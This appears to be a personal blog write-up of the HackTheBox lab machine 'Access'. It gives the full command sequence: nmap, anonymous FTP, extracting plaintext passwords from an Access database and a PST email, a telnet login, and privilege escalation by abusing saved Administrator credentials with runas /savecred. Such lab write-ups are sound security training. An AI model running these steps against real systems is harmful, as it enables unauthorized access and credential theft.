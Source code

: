 ```yaml
---
layout: single
classes: wide
title:  "Access"
date: 2019-03-11
categories:
    - "hackthebox"
tags:
    - machines
    - windows
    - easy
excerpt:  "This was my first ever machine on HTB. Took me around 3 days to figure this out (I was just starting!). This box touches basic misconfiguration in Windows based servers and is a good starter to your adventure in penetration testing with hackthebox."
---
```

This was my first ever machine on HTB. Took me around 3 days to figure this out (I was just starting!). This box touches basic misconfiguration in Windows based servers and is a good starter to your adventure in penetration testing with hackthebox.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/Access/banner.PNG)

## Unlock and Access!

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```bash
htb@noone:~/Access$ nmap -v -sC -sV -oA nmap/access 10.10.10.98
Nmap scan report for 10.10.10.98
Host is up (0.12s latency).
Not shown: 997 filtered ports

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Well, so we have a few ports open, port 21, 23, 80.

I always like to check the low-hanging fruit first. So let's get into FTP since `anonymous` login is allowed. This is a common misconfiguration for FTP logins. You never know what you might find but always is useful.

```console
htb@noone:~/Access$ ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:htb): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
226 Transfer complete.

ftp> cd Backups
250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-23-18  08:16PM              5652480 backup.mdb
226 Transfer complete.

ftp> cd ../Engineer
l250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.

ftp> get "Access Control.zip"

ftp> get ../Backups/backup.mdb
```

After exploring the FTP shell, I found two files `backup.mdb` and `Access Control.zip`

A little Google-Fu helped me to figure out what a `mdb` file was and how I could use command-line tools in kali to view the contents.

```console
htb@noone:~/Access$ mdb-tables backup.mdb
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc
auth_group_permissions auth_message auth_permission - auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS
deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog
ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam
auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate
FaceTempEx FingerVeinEx TEMPLATEEx

htb@noone:~/Access$ mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer" ,"access4u@security" ,1,"08/23/18 21:13:36",26,
28,"backup_admin" ,"admin" ,1,"08/23/18 21:14:02",26,
```

Credentials found for some users. Now let's try to access the zip archive.

I tried to extract te=he archive on Linux, doesn't work. So, I downloaded it on a Windows box and tried to unzip and apparently, it needs a password. Thankfully, we have a list that we just extracted.

After some trial and error, `access4u@security` was the password for the archive. Found a `.pst` file. Again some Google-Fu and I found a way to read the file on linux.

````console
htb@noone:~/Access$ readpst 'Access Control.pst'

htb@noone:~/Access$cat 'Access Control.mbox'

From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-930452179_-_-"


----boundary-LibPST-iamunique-930452179_-_-
Content-Type: multipart/alternative;
        boundary="alt---boundary-LibPST-iamunique-930452179_-_-"

--alt---boundary-LibPST-iamunique-930452179_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,



The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.



Regards,

John
````

Great! So we have a set of credentials. That was it from FTP, onto the next service which is Telnet on port 23.

````console
htb@noone:~/Access$ telnet -l security 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

password:4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security

```snip```
03/12/2019  12:33 PM    <DIR>          Desktop
08/21/2018  10:35 PM    <DIR>          Documents
08/21/2018  10:35 PM    <DIR>          Downloads
```snip```
2 File(s)          5,198 bytes
14 Dir(s)  16,667,664,384 bytes free
C:\Users\security>cd Desktop

C:\Users\security\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security\Desktop
```snip```
08/21/2018  10:37 PM                32 user.txt
```snip```

C:\Users\security\Desktop>more user.txt
f******************************8
````

Excellent! We have our user flag. Onto root.

In the same telnet session, I tried to check ways to privesc.

```console
C:\>cmdkey /list

Currently stored credentials:

Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator

C:\>C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"

C:\>more C:\Users\security\Downloads\root.txt
6******************************f
```

Voila! We have the root flag as well and we can use this to gain out points on HackTheBox.

The privilege escalation on this box wasn't that complicated if you know what you are doing.

Happy Hacking! Cheers!
